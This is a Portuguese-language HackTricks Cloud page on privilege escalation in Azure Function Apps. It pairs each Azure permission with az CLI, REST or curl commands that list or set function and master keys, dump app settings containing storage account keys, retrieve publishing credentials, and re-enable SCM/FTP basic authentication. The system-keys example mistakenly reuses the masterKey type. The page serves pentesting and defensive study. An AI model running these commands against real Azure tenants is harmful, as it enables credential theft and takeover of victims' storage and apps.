 # Az - Functions App Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Function Apps

Verifique a página a seguir para mais informações:

{% content-ref url="../az-services/az-function-apps.md" %}
[az-function-apps.md](../az-services/az-function-apps.md)
{% endcontent-ref %}

### Microsoft.Web/sites/host/listkeys/action

Esta permissão permite listar as chaves de função, mestre e sistema, mas não a chave do host, da função especificada com:

{% code overflow="wrap" %}
```bash
az functionapp keys list --resource-group <res_group> --name <func-name>
```
{% endcode %}

### Microsoft.Web/sites/functions/listKeys/action

Esta permissão permite obter a chave do host da função especificada com:

{% code overflow="wrap" %}
```bash
az rest --method POST --uri "https://management.azure.com/subscriptions/<subsription-id>/resourceGroups/<resource-group>/providers/Microsoft.Web/sites/<func-name>/functions/<func-endpoint-name>/listKeys?api-version=2022-03-01"
```
{% endcode %}

### Microsoft.Web/sites/host/functionKeys/write

Esta permissão permite criar/atualizar uma chave de função para a função especificada com:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type functionKeys --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/masterKey/write

Esta permissão permite criar/atualizar uma chave mestra para a função especificada com:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/host/systemKeys/write

Esta permissão permite criar/atualizar uma chave de função do sistema para a função especificada com:

{% code overflow="wrap" %}
```bash
az functionapp keys set --resource-group <res_group> --key-name <key-name> --key-type masterKey --name <func-key> --key-value q_8ILAoJaSp_wxpyHzGm4RVMPDKnjM_vpEb7z123yRvjAzFuo6wkIQ==
```
{% endcode %}

### Microsoft.Web/sites/config/list/action

Esta permissão permite obter as variáveis de ambiente de uma função. Dentro dessas variáveis, pode ser possível encontrar as variáveis de ambiente padrão **`AzureWebJobsStorage`** ou **`WEBSITE_CONTENTAZUREFILECONNECTIONSTRING`** que na verdade contêm uma **chave de conta para acessar o blob storage da função com permissões COMPLETAS**.

{% code overflow="wrap" %}
```bash
az functionapp config appsettings list --name <func-name> --resource-group <res-group>
```
{% endcode %}



### `Microsoft.Web/sites/publishxml/action, (Microsoft.Web/sites/basicPublishingCredentialsPolicies/write)`

Esta permissão permite listar todos os perfis de publicação que basicamente contêm **credenciais de autenticação básica**:
```bash
# Gte creds
az functionapp deployment list-publishing-profiles \
--name basicauthenabled \
--resource-group Resource_Group_1 \
--output json
```
* **Método SCM**

Em seguida, você pode acessar com essas **credenciais de autenticação básica na URL SCM** do seu aplicativo de função e obter os valores das variáveis de ambiente:
```bash
# Get env variables values
curl -u '<username>:<password>' \
https://<app-name>.scm.azurewebsites.net/api/settings -v
```
_Note que o **nome de usuário SCM** é geralmente o caractere "$" seguido pelo nome do aplicativo, então: `$<app-name>`._

E essas variáveis de ambiente contêm a **AccountKey** da conta de armazenamento que armazena os dados do aplicativo de função, permitindo controlar essa conta de armazenamento.

Se você ver que essas credenciais estão **REDACTED**, é porque você **precisa habilitar a opção de autenticação básica do SCM** e para isso você precisa da segunda permissão (`Microsoft.Web/sites/basicPublishingCredentialsPolicies/write):`

{% code overflow="wrap" %}
```bash
# Enable basic authentication for SCM
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/scm?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'

# Enable basic authentication for FTP
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/basicPublishingCredentialsPolicies/ftp?api-version=2022-03-01" \
--body '{
"properties": {
"allow": true
}
}'
```
{% endcode %}



{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporte o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
